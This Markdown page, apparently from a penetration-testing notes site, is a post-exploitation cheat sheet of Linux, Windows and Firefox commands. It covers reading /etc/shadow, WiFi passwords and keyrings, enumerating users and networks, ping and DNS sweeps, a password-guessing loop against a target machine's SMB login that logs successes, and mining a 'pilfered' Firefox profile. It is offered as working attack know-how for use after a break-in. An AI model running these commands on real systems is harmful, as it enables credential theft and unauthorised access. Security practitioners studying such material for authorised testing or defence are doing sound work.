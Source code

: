 ```yaml
---
title: Landing Commands
category: Post-Exploitation
order: 2
---
```


> **Linux**

Kernal version  | <code> uname -r </code>
Determine Account | <code> whoami </code>
Add User | <code> useradd -d [home_dir] [login name] </code>
Privilidges |<code>  id </code>
Network Activity | <code> netstat -natu </code>
ARP Cache | <code> arp -a </code>
Routing Table | <code> netstat -nr </code>
Lockout Policy | <code> grep tally /etc/pam.d/* <br> grep tally /etc/pam.conf" </code>
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
Passwords and Users | <code> cat etc/passwd && cat etc/shadow </code>
Wifi Password | <code> /etc/NetworkManager/system-connections </code>
Gnome Keyring | <code> ~/.gnome/keyrings </code>

> **Windows**

Determine Account | <code> whoami, set username </code>
DNS Cache | <code> ipconfig /displaydns </code>
Arp Cache | <code> arp -a </code>
Network Activity | <code> netstat -na | find "ESTABLISHED" </code>
Processes | <code> tasklist </code>
Services | <code> sc query </code>
Inventory Software | <code> dir /s  c:\Program Files > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt <br> set path </code>
Routing Table | <code> netstat -nr  </code>
List Users | <code> net user <br> wmic useraccount list brief </code>
List Groups | <code> net localgroup </code> 
List Administrators | <code> net localgroup administrators </code> 
List Password and Lockout Policy | <code> net accounts or net accounts /domain </code> 
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code> 
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code> 
Password Guess | <code> for /f %i in (password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt </code> 
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>

> **Firefox**

Finding user browser history and passwords in history:
{% highlight bash %}
sqlite3 ~/pilfered-firefox-profile/gn2uzbr6.Default\ User/places.sqlite sqlite> select * from moz_places where url like "%@%";

Cd ~/.mozilla/firefox/g4iiysbk.default/Cache
Strings [filename] | grep [file eg php]
{% endhighlight %}




